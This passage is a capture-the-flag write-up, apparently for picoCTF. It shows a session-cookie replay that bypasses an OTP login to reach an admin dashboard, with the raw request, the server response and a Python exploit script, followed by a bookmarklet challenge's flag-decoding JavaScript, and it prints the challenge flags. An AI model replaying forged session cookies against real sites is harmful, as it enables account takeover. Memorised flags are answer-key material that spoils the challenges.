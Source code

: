 ```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:49470/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJxVjEkOwyAQBP_COQfALCafQRMGZCsGLBZZUZS_Z3LMsapV_WZhHy92Z1vI7MZCb8mP-oyFFKYVDddcCCUWK2VITgECciDQClO0gWsQ1KV5HL5AjpQB5r2Qq-MkWpwy2hKe0PtVG5L7FedWS_Rl5kdspLiQi9LGro622WP7O_t8AVBpMbY.Z7gxBA.xMlN9aK57PWVyqHzEZdO9Po7_hQ
Connection: keep-alive
```

`response`
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Fri, 21 Feb 2025 07:55:24 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 106
Vary: Cookie
Connection: close

Welcome, admin you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}
```
`exploit`
```python
import requests

url = "http://titan.picoctf.net:49470/dashboard"

cookie = {
    "session": ".eJxVjEkOwyAQBP_COQfALCafQRMGZCsGLBZZUZS_Z3LMsapV_WZhHy92Z1vI7MZCb8mP-oyFFKYVDddcCCUWK2VITgECciDQClO0gWsQ1KV5HL5AjpQB5r2Qq-MkWpwy2hKe0PtVG5L7FedWS_Rl5kdspLiQi9LGro622WP7O_t8AVBpMbY.Z7gxBA.xMlN9aK57PWVyqHzEZdO9Po7_hQ"
}

res = requests.post(url, cookies=cookie)

print(res.text)
#Welcome, admin you sucessfully bypassed the OTP request. 
#Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}
```
`flag: picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}`


### Bookmarklet

`Description`
```
Why search for the flag when I can make a bookmarklet to print it for me?
Additional details will be available after launching your challenge instance.
```

we are given a `script` about `javascript`
```python
javascript:(function() {
    var encryptedFlag = "àÒÆÞ¦È¬ëÙ£ÖÓÚåÛÑ¢ÕÓÓÇ¡¥Ìí";
    var key = "picoctf";
    var decryptedFlag = "";
    for (var i = 0; i < encryptedFlag.length; i++) {
        decryptedFlag += String.fromCharCode((encryptedFlag.charCodeAt(i) - key.charCodeAt(i % key.length) + 256) % 256);
    }
    alert(decryptedFlag);
})();
```

